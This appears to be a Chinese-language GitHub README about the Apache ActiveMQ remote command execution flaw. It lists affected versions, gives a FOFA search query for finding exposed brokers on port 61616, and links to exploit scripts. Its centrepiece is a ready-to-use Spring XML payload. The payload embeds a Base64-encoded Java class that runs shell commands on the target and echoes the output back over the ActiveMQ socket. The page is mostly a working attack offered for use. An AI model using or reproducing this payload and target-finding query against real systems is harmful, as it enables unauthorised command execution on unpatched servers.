

## Apache ActiveMQ远程命令执行漏洞

## 影响版本
```
5.18.0<=Apache ActiveMQ<5.18.3
5.17.0<=Apache ActiveMQ<5.17.6
5.16.0<=Apache ActiveMQ<5.16.7
5.15.0<=Apache ActiveMQ<5.15.15
```
## fofa
```
app="APACHE-ActiveMQ" && port="61616"
```
## ActiveMqRCE 有回显
```
https://github.com/Hutt0n0/ActiveMqRCE

```
## 11.16号新增有回显的命令执行exp
```

<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:spring="http://camel.apache.org/schema/spring"
       xmlns:context="http://www.springframework.org/schema/context"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://camel.apache.org/schema/spring http://camel.apache.org/schema/spring/camel-spring.xsd http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context.xsd">
    <context:property-placeholder ignore-resource-not-found="false" ignore-unresolvable="false"/>

    <bean  class="#{T(org.springframework.cglib.core.ReflectUtils).defineClass('CMDResponse',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAADQAtgoAKgBhCABiCABjCgBkAGUKAA0AZggAZwoADQBoCABpCABqCABrCABsBwBtBwBuCgAMAG8KAAwAcAoAcQByBwBzCgARAGEKAHQAdQoAEQB2CgARAHcKAA0AeAcAeQoAFwB6CgB7AHwIAH0KAH4AfwgARAoAfgCACgCBAIIKAIEAgwcAhAgAhQgASgcAhgoAIwCHCACICgANAIkKAIoAiwoAigCMBwCNBwCOAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAA1MQ01EUmVzcG9uc2U7AQAEdGVzdAEAFShMamF2YS9sYW5nL1N0cmluZzspVgEADnByb2Nlc3NCdWlsZGVyAQAaTGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcjsBAAVzdGFydAEAE0xqYXZhL2xhbmcvUHJvY2VzczsBAAtpbnB1dFN0cmVhbQEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAFWJ5dGVBcnJheU91dHB1dFN0cmVhbQEAH0xqYXZhL2lvL0J5dGVBcnJheU91dHB1dFN0cmVhbTsBAARyZWFkAQABSQEAAWUBABVMamF2YS9sYW5nL0V4Y2VwdGlvbjsBAAZ0aHJlYWQBABJMamF2YS9sYW5nL1RocmVhZDsBAAZhQ2xhc3MBABFMamF2YS9sYW5nL0NsYXNzOwEABnRhcmdldAEAGUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAAl0cmFuc3BvcnQBADBMb3JnL2FwYWNoZS9hY3RpdmVtcS90cmFuc3BvcnQvdGNwL1RjcFRyYW5zcG9ydDsBAAdhQ2xhc3MxAQALc29ja2V0ZmllbGQBAAZzb2NrZXQBABFMamF2YS9uZXQvU29ja2V0OwEADG91dHB1dFN0cmVhbQEAFkxqYXZhL2lvL091dHB1dFN0cmVhbTsBAANjbWQBABJMamF2YS9sYW5nL1N0cmluZzsBAAZyZXN1bHQBAAdwcm9jZXNzAQADYXJnAQAWTG9jYWxWYXJpYWJsZVR5cGVUYWJsZQEAFExqYXZhL2xhbmcvQ2xhc3M8Kj47AQANU3RhY2tNYXBUYWJsZQcAbgcAjQcAbQcAjwcAkAcAcwcAeQEACkV4Y2VwdGlvbnMHAJEBAApTb3VyY2VGaWxlAQAQQ01EUmVzcG9uc2UuamF2YQwAKwAsAQAAAQAHb3MubmFtZQcAkgwAkwCUDACVAJYBAAd3aW5kb3dzDACXAJgBAAdjbWQuZXhlAQACL2MBAAcvYmluL3NoAQACLWMBABhqYXZhL2xhbmcvUHJvY2Vzc0J1aWxkZXIBABBqYXZhL2xhbmcvU3RyaW5nDAArAJkMADYAmgcAjwwAmwCcAQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HAJAMADwAnQwAngCfDACgAKEMACsAogEAE2phdmEvbGFuZy9FeGNlcHRpb24MAKMAlgcApAwApQCmAQAQamF2YS5sYW5nLlRocmVhZAcApwwAqACpDACqAKsHAKwMAK0ArgwArwCwAQAub3JnL2FwYWNoZS9hY3RpdmVtcS90cmFuc3BvcnQvdGNwL1RjcFRyYW5zcG9ydAEALm9yZy5hcGFjaGUuYWN0aXZlbXEudHJhbnNwb3J0LnRjcC5UY3BUcmFuc3BvcnQBAA9qYXZhL25ldC9Tb2NrZXQMALEAsgEAAQoMALMAoQcAtAwAngCiDAC1ACwBAAtDTURSZXNwb25zZQEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUHJvY2VzcwEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBAAt0b0xvd2VyQ2FzZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAHaW5kZXhPZgEAFShMamF2YS9sYW5nL1N0cmluZzspSQEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBABUoKUxqYXZhL2xhbmcvUHJvY2VzczsBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQADKClJAQAFd3JpdGUBAAQoSSlWAQALdG9CeXRlQXJyYXkBAAQoKVtCAQAFKFtCKVYBAApnZXRNZXNzYWdlAQAQamF2YS9sYW5nL1RocmVhZAEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwEAD2phdmEvbGFuZy9DbGFzcwEAB2Zvck5hbWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7AQAQZ2V0RGVjbGFyZWRGaWVsZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkAQANc2V0QWNjZXNzaWJsZQEABChaKVYBAANnZXQBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAD2dldE91dHB1dFN0cmVhbQEAGCgpTGphdmEvaW8vT3V0cHV0U3RyZWFtOwEACGdldEJ5dGVzAQAUamF2YS9pby9PdXRwdXRTdHJlYW0BAAVjbG9zZQAhACkAKgAAAAAAAgABACsALAABAC0AAAAvAAEAAQAAAAUqtwABsQAAAAIALgAAAAYAAQAAAAcALwAAAAwAAQAAAAUAMAAxAAAAAQAyADMAAgAtAAAC5wAGAA0AAAD7EgJNEgJOEgI6BBIDuAAEtgAFEga2AAebAA0SCE4SCToEpwAKEgpOEgs6BLsADFkGvQANWQMtU1kEGQRTWQUrU7cADjoFGQW2AA86BhkGtgAQOge7ABFZtwASOggDNgkZB7YAE1k2CQKfAA0ZCBUJtgAUp//tuwANWRkItgAVtwAWTacACzoFGQW2ABhNuAAZOgUSGrgAGzoGGQYSHLYAHToHGQcEtgAeGQcZBbYAH8AAIDoIEiG4ABs6CRkJEiK2AB06ChkKBLYAHhkKGQi2AB/AACM6CxkLtgAkOgwZDBIltgAmtgAnGQwstgAmtgAnGQy2ACinAAU6BbEAAgArAIIAhQAXAI0A9QD4ABcABAAuAAAAjgAjAAAACwADAAwABgANAAoADgAaAA8AHQAQACQAEgAnABMAKwAWAEUAFwBMABgAUwAZAFwAGgBfABsAawAcAHUAHgCCACEAhQAfAIcAIACNACQAkgAlAJkAJgCiACcAqAAoALQAKQC7ACoAxAArAMoALADWAC0A3QAuAOcALwDwADAA9QAzAPgAMQD6ADgALwAAAMAAEwBFAD0ANAA1AAUATAA2ADYANwAGAFMALwA4ADkABwBcACYAOgA7AAgAXwAjADwAPQAJAIcABgA+AD8ABQCSAGMAQABBAAUAmQBcAEIAQwAGAKIAUwBEAEUABwC0AEEARgBHAAgAuwA6AEgAQwAJAMQAMQBJAEUACgDWAB8ASgBLAAsA3QAYAEwATQAMAAAA+wAwADEAAAAAAPsATgBPAAEAAwD4AFAATwACAAYA9QBRAE8AAwAKAPEAUgBPAAQAUwAAABYAAgCZAFwAQgBUAAYAuwA6AEgAVAAJAFUAAABUAAj+ACQHAFYHAFYHAFYG/wAzAAoHAFcHAFYHAFYHAFYHAFYHAFgHAFkHAFoHAFsBAAAV/wAPAAUHAFcHAFYHAFYHAFYHAFYAAQcAXAf3AGoHAFwBAF0AAAAEAAEAXgABAF8AAAACAGA='),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance().test('ls')}">
    </bean>
</beans>
```
## 漏洞回显复现



## 漏洞脚本
```
https://github.com/Fw-fW-fw/activemq_Throwable
https://github.com/sincere9/Apache-ActiveMQ-RCE
https://github.com/X1r0z/ActiveMQ-RCE
```

## 漏洞分析
```
https://paper.seebug.org/3058/
https://mp.weixin.qq.com/s/4n7vyeXLtim0tXcjnSWDAw
```
